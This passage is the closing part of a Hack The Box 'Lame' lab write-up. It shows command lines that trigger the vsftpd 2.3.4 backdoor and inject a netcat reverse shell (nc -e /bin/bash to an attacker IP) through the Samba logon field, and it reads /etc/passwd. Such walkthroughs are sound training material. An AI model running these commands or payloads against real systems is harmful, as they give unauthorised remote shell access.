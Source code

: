 ```bash
cat /etc/passwd | grep 'sh$'
su - makis -c bash
telnet 127.0.0.1 21
  USER hello:)
  PASS password
```

> **Attacker Machine**:

```bash
sudo nc -nlvp 443
smbclient //10.129.140.158/tmp -N -c 'logon "/=`nc -e /bin/bash 10.10.14.62 443`"'
```

> **Victime Machine**:

```bash
netstat -nltp | grep 6200                                                             # :)

nc 127.0.0.1 6200                                                                     # [After several times]
```

<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">

> The great thing about the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform is that even with **Easy** machines you can learn and strengthen basic pentesting concepts. I am going to look for my next challenge and continue my ongoing practice to improve my skills in the field of **Informatic Security**. I must not forget to kill the box.

<br />
<img src="{{ site.img_path }}/lame_writeup/Lame_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
